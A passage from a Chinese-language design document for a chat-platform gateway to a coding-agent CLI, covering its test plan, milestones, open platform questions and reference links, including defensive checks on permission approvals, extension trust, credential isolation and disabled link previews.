   - `packages/pi-agent-cli/tests/_tool_agent.py`，`PI_TEST_PERMISSION=ask`，`PI_TEST_TOOL_CALL` 设成 `write` 或 `bash`：允许则运行、拒绝则不运行、超时拒绝、审批中 `/stop` 得到取消。
   - steer：回合进行中发消息，走 `pi/session/steer`；被读到时标 ✅；回合在读到前结束时，`clearedSteerIds` 里的消息标 ❌ 并提示重发。
   - `/btw`：走 X10；会话文件前后逐字节相同。
   - 信任：项目里放一个 `.pi-python/extensions/x.py`、信任存储为空，确认网关自动拒绝、会话继续、扩展没有加载。
   - 环境：在 Linux 上读 `/proc/<agent pid>/environ`，确认没有网关的凭据变量。
   - 生命周期：网关重启后 `session/resume`；杀掉 agent 进程后，等待中的审批被取消、下一条消息重启 agent。
   - 隔离：两个项目的会话在两个 agent 进程里；网关从不发 X8（在测试里拦截所有出站的扩展通知）。
3. **适配器测试**：每个平台用录下来的事件与接口载荷做回放，不联网。平台 SDK 是可选依赖，没装时跳过该适配器的测试（与 `pi-mcp` 的做法相同）。
4. **手工清单**（每个平台、每次发布）：配对；私聊里一个完整回合；手机上审批；流式卡片；steer；`/btw`；链接确实没有预览；发文件；断网后自动重连。
5. **CI**：新包在 `packages/` 下，`ci.yml` 现有的路径过滤会自动覆盖；适配器的可选依赖在 CI 里装上，让它们的测试也跑。

---

## 11. 里程碑

| 里程碑 | 内容 | 退出门禁 |
|--------|------|----------|
| G1：个人模式 MVP | 核心、内存平台、首发平台的适配器；私聊；`ask`；审批；steer；`/stop`、`/new`、`/resume`、`/status`；图片输入；节流编辑（先不用原生流式） | §10 第 1、2 组全部通过；首发平台的手工清单通过 |
| G2：完整体验 | 原生流式卡片；`/btw`；`auto`（可选）；群聊绑定与审批进私聊；`tool_output = "on_request"`；第二个平台 | 新增功能的测试与手工清单通过 |
| G3：推广 | 更多平台；服务安装的文档与示例；README 的 Status 表与网站（`en.ts`、`zh.ts`）同步；ACP 扩展登记补上网关这个客户端（X9、X10 的"Sent by / Read by"）和信任问题的形状 | 文档与网站的说法和 README 一致 |
| G4：接 daemon（路线图 Phase 1 之后） | `DaemonBackend`；会话在各端之间共享；daemon 对远程客户端的权限范围沿用 §6 | daemon 的一致性用例：远程客户端不能信任项目、不能进入 `always-approve` |

---

## 12. 未决问题与要核实的平台细节

1. **团队模式**（v1 不做）：要按用户隔离进程或容器、按用户的模型凭据与额度、按用户的项目信任与审计。届时另写设计。
2. **飞书**：卡片按钮在长连接模式下怎么收（新版卡片回传交互）、响应时限；CardKit 流式的时长上限（第三方说约 10 分钟）；机器人消息里的链接会不会自动预览、能不能关。
3. **钉钉、企业微信**：同上，链接预览能不能关；企业微信模板卡片"5 秒内更新"的限制对审批卡片的影响（审批是几分钟后才点）。
4. **Telegram**：`sendMessageDraft` 的上线时间与费用说明（现有资料是二手的）。
5. **断线期间的消息**：各平台会不会重投、重投多久，不同。网关重连后不会补拉，文档写明。
6. **单一写者**：路线图 D8 定下来之前，同一会话两边同时继续的风险，只能靠 §4 第 6 条的提醒。
7. **语音消息**：平台能转文字的（飞书、企业微信等）是否收，v1 不做。
8. **包名**：PyPI 包名沿用 `pi-*-py` 的习惯，还是用 `zycode-*`，与路线图 D1 一起定。

---

## 参考

- 飞书开放平台：[步骤三：接收事件（含长连接的鉴权说明）](https://open.feishu.cn/document/ukTMukTMukTM/uYDNxYjL2QTM24iN0EjN/event-subscription-configure-/encrypt-key-encryption-configuration-case.md)；[卡片交互机器人的示例代码说明](https://open.feishu.cn/document/uAjLw4CM/uMzNwEjLzcDMx4yM3ATM/develop-a-card-interactive-bot/explanation-of-example-code.md)；[CardKit：配置卡片变量](https://open.feishu.cn/document/feishu-cards/feishu-card-cardkit/configure-card-variables.md)；[更新已发送的消息卡片](https://open.larkoffice.com/document/server-docs/im-v1/message-card/patch.md)；[`lark-oapi`（PyPI）](https://pypi.org/project/lark-oapi/1.6.0/)；第三方的流式卡片实现：[feishu-streaming-card](https://pypi.org/project/feishu-streaming-card/)。
- 钉钉：[`dingtalk-stream`（PyPI）](https://pypi.org/project/dingtalk-stream)；[阿里云：AgentRun 接入钉钉（AI 卡片流式更新的权限）](https://help.aliyun.com/zh/functioncompute/connect-agentrun-to-dingtalk)。
- 企业微信：[`@wecom/aibot-node-sdk` 的 README](https://cdn.jsdelivr.net/npm/@wecom/aibot-node-sdk@1.0.7/README.md)；[被动回复消息](https://developer.work.weixin.qq.com/document/path/101031)。
- Slack：[chat streaming 的更新说明（2025-10-07）](https://docs.slack.dev/changelog/2025/10/7/chat-streaming)；[`chat.startStream`](https://docs.slack.dev/reference/methods/chat.startStream/)；[`chat.stopStream`](https://docs.slack.dev/reference/methods/chat.stopStream)；[`slack_sdk` 的 `chat_stream`](https://docs.slack.dev/tools/python-slack-sdk/reference/web/chat_stream.html)。
- Telegram：[`sendMessageDraft`](https://core.telegram.org/bots/api/methods/sendmessagedraft.md)；[AI features for bots](https://core.telegram.org/api/bots/ai)。
- 链接预览与图片外传的攻击：[Embrace The Red：The dangers of AI agents unfurling hyperlinks](https://embracethered.com/blog/posts/2024/the-dangers-of-unfurling-and-what-you-can-do-about-it)；[Simon Willison：Data exfiltration from Slack AI](https://simonwillison.net/2024/Aug/20/data-exfiltration-from-slack-ai/)。
